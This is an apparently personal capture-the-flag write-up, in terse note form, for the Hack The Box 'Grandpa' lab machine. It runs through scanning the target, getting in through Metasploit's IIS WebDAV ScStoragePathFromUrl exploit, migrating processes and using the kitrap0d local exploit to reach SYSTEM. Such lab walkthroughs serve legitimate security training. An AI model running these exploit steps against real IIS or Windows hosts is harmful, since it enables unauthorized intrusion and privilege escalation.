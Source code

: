 ```yaml
---
title: "HTB Grandpa Machine"
excerpt: "Learn how to complete Grandpa Machine on HTB."
categories:
  - HTB
tags:
  - HTB
  - HTB Grandpa Machine
  - Grandpa
  - Easy

toc: true
---
```


ping 10.10.10.14
whatweb 10.10.10.14

echo "10.10.10.14 grandpa.htb" >> /etc/hosts
nmap grandpa.htb

msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set lport, lhost and rhost
run

cd c:/
cd "Documents and Settings"
cd Harry -> Operation failed: Access is denied.

ps -> find NETWORK PRIVILEGES
migrate <pid>

getuid -> NETWORK PRIVILEGES
background

check [metasploit privilege escalation](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)
use windows/local/ms10_015_kitrap0d
set lport, lhost and session
run

getuid -> SYSTEM PRIVILEGES
cd "Documents and Settings"

get flags